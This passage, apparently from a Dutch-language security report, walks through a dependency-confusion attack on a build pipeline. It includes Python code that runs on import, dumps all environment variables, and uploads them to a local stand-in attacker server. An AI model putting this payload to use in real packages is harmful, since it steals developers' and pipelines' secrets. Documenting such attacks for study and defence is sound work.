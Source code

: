 Vervolgens begint de aanvaller met het creëren van een kwaadaardige Python-dependency in de volgende fase. Deze dependency zal dezelfde naam hebben als het gevonden private dependency, maar zal een nieuwere versie hebben. Door deze nieuwe versie wordt ervoor gezorgd dat de Python-dependency van de aanvaller altijd wordt gedownload in plaats van de lokale package.
\newline

De code die de aanvaller schrijft, zorgt ervoor dat de systeemomgevingsvariabelen naar de aanvaller worden doorgestuurd via een willekeurige bestandsnaam. Door de code toe te voegen aan het \textit{init.py}-bestand wordt de code automatisch uitgevoerd wanneer de dependency wordt geïmporteerd. De code op de volgende pagina toont wat voor code gebruikt wordt voor de kwaadaardige dependency.
\clearpage

\begin{lstlisting}[style=python]
  # testpackageBP.py
  import os
  import requests
  import tempfile
  
  def test():
      with tempfile.NamedTemporaryFile(mode='w', delete=False) as f:
          for key, value in os.environ.items():
              f.write(f"{key}: {value}\n")
          output_file = f.name
      f.close()
  
      url = "http://localhost:3030/upload"
      files = {"files": (output_file, open(output_file, "rb"))}
      response = requests.post(url, files=files)
  
  
  
  test()
  
  #__init__.py
  from .testpackageBP import test

  test  
\end{lstlisting}

\vspace{0.5cm}
Wanneer een developer de pipeline uitvoert zal de kwaadaardige dependency gedownload worden. Op dat moment hoeft de aanvaller alleen maar te wachten tot de applicatie wordt gebruikt. Zodra dit gebeurt, krijgt de aanvaller toegang tot de omgevingsvariabelen en de bijbehorende geheime informatie. Figuur \ref{fig:3thattack} toont de logs van de pipeline wanneer de aanval succesvol is. Figuur \ref{fig:4thattack} toont hoe de aanvaller de omgevingsvariabelen ontvangt op zijn server.
\newline

